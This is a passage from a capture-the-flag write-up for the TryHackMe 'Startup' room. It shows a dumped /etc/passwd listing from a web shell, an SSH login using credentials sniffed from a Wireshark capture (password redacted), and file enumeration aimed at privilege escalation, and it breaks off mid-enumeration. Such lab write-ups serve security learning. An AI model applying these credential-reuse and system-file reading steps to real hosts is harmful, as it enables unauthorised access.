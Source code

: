 ```highlight
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
ftp:x:112:118:ftp daemon,,,:/srv/ftp:/bin/false
lennie:x:1002:1002::/home/lennie:
ftpsecure:x:1003:1003::/home/ftpsecure:
www-data@startup:/home$ exit
exit
exit
$ exit
```

I have redacted the output to hide the password however its clearly visible in the output in the Wireshark capture. Im going to assume the user has not changed their password and try to login in using SSH with the capture credentials.

### Priv Esc

SSH works as expected as the user 'lennie'. Logging in I can now grab the first flag user.txt.

To complete this room we need to escalate our privileges to root to grab the final flag. In the users home directly are two folders 'Documents' and 'scripts'.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Startup]
└──╼ $ssh lennie@startup
lennie@startup's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-190-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

44 packages can be updated.
30 updates are security updates.


Last login: Sat Nov 21 12:01:37 2020 from 10.8.21.217
$ bash
lennie@startup:~$ ls -alh
total 24K
drwx------ 5 lennie lennie 4.0K Nov 21 12:01 .
drwxr-xr-x 3 root   root   4.0K Nov 12 04:53 ..
drwx------ 2 lennie lennie 4.0K Nov 21 12:01 .cache
drwxr-xr-x 2 lennie lennie 4.0K Nov 12 04:53 Documents
drwxr-xr-x 2 root   root   4.0K Nov 12 04:54 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12 04:53 user.txt
lennie@startup:~$ cd Documents/
lennie@startup:~/Documents$ ls -lah
total 20K
drwxr-xr-x 2 lennie lennie 4.0K Nov 12 04:53 .
drwx------ 5 lennie lennie 4.0K Nov 21 12:01 ..
-rw-r--r-- 1 root   root    139 Nov 12 04:53 concern.txt
-rw-r--r-- 1 root   root     47 Nov 12 04:53 list.txt
-rw-r--r-- 1 root   root    101 Nov 12 04:53 note.txt
lennie@startup:~/Documents$ cat concern.txt 
```